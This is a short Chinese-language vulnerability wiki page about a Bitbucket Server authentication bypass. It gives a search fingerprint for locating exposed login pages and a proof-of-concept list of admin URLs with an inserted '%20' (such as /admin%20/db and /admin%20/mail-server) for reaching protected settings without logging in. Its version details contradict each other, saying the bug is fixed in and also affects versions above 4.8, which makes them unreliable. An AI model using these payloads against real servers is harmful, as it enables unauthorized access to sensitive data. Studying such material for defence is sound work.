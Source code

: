 # Bitbucket 登录绕过漏洞

## 漏洞描述

此错误已修复并部署在 Bitbucket Server > 4.8 上。Bitbucket 由 Atlassian 团队开发。其中出现了一个通过 %20 绕过权限的漏洞，导致任意用户可获取敏感数据

## 漏洞影响

<a-checkbox checked>Bitbucket Server > 4.8</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="Log in - Bitbucket"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1646803634647-f4c4a968-440a-4dd0-8e1b-24955401b1f4.png)

验证POC

```javascript
/admin%20/mail-server
/admin%20/db
/admin%20/db/edit
/admin%20/license
/admin%20/logging
/admin%20/server-settings
/admin%20/authentication
/admin%20/avatars
```

![image-20220318011106473](/assets/PeiQi-Wiki/img/image-20220318011106473.png)
